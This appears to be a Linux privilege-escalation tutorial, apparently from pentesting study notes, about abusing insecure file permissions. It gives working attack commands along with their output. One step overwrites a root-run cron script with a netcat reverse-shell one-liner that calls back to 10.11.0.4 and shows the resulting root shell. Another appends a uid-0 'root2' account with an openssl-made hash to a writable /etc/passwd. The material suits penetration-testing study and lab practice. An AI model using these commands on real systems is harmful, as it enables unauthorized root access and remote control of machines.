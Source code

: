 # Insecure File Permissions

In order to leverage insecure file permissions we need to find a file that allows us write access but is executed at a higher privilege level.

## Abusing Cron Jobs

Let's view _**/var/log/syslog**_ for "CRON" logs. Alternatively, could also inspect the cron log file (_**/var/log/cron.log**_) for running cron jobs:

```shell-session
$ grep "CRON" /var/log/syslog
...
Aug 25 04:56:07 debian-privesc cron[463]: (CRON) INFO (pidfile fd = 3)
Aug 25 04:56:07 debian-privesc cron[463]: (CRON) INFO (Running @reboot jobs)
Aug 25 04:57:01 debian-privesc CRON[918]:  (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
Aug 25 04:58:01 debian-privesc CRON[1043]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
Aug 25 04:59:01 debian-privesc CRON[1223]: (root) CMD (/bin/bash /home/joe/.scripts/user_backups.sh)
```

**user\_backups.sh** under **/home/joe/** is executed in the context of the root user.

We can replace **user\_backups.sh** with our own script, a reverse shell, is a nice choice!

#### Replace with Reverse Shell

```shell-session
rm /home/joe/.scripts/user_backups.sh

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.4 1234 >/tmp/" >> user_backups.sh
```

#### Create Listener

```shell-session
kali@kali$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.214] 57698
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```



### Abusing Password Authentication

It's possible for Linux to utilize a centralized repository to manage passwords such as LDAP or Active Directory, however passwords are generally stored in **/etc/shadow**.



Abusing older /etc/passwd permissions.

In older versions of UNIX, the password has was stored in /etc/passwd. If we come across an /etc/passwd file that contains a password hash we can crack it and assume it'll work for authentication.&#x20;

Likewise, we can attempt to add a generate a password hash with openssl and add it to the /etc/passwd file.

```
$ openssl passwd w00t
Fdzt.eqJQ4s0g

$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

$ su root2
Password: w00t

# id
uid=0(root) gid=0(root) groups=0(root)
```
